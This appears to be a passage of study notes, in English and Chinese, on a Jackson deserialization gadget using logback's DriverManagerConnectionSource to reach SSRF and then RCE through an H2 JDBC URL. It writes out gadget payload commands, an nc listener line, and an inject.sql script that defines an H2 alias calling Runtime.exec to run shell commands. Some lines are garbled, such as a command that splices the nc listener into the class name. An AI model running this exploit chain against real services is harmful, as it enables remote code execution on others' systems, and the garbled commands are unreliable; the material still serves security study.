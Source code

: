 call the previous script with the aforementioned classpath.

```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:"}]"
```

1. Jackson will recursively 递归地 call all of the setters with the key contained inside the subobject. the `setUrl(String url)` is called with arguments by the **Jackson reflection library**.
2. the full object is serialized into a JSON object again.
3. At this point all the fields are serialized directly, if no getter is defined, or through an explicit getter.
4. When the `getConnection` is called, an `in memory database` is instantiated.
   1. Since the application is short lived, won’t see any meaningful effect from the attacker’s perspective.
   2. to do something meaningful, create a connection to a remote database.
   3. If the target application is deployed as a remote service, an attacker can generate a Server Side Request Forgery (SSRF).


```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource $ nc -lv 8080 rce", {"url":"jdbc:h2:tcp://localhost:8080/~/test"}]"  ~/test#jdbc:h2:tcp://localhost:8080/~/test_
# Mapping
# Serializing
# objectified
```

---

## 0x04 从SSRF到RCE

这些攻击场景都与DoS以及SSRF有关,可能影响应用的安全性

将SSRF转换成完成的RCE攻击链。
- to gain full code execution in the context of the application
- employed the capability of `loading the H2 JDBC Driver`
  - H2
    - a super fast SQL database
    - usually employed as **in memory replacement** for full-fledged SQL Database Management Systems
      - such as Postgresql, MSSql, MySql or OracleDB
    - easily configurable and supports many modes
      - such as in memory, on file, and on remote servers.
    - **can run SQL scripts from the JDBC URL**
      - which for have an in-memory database to support `init migrations`.

> This alone won’t allow execute Java code inside the JVM context.
> but H2 was implemented inside the JVM, has the capability to `specify custom aliases containing java code`.
> - **which can abuse to execute arbitrary code**.

通过python构建一个简单的HTTP服务器
- `python -m SimpleHttpServer`
- 托管如下inject.sql INIT文件：

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > exploited.txt')
```
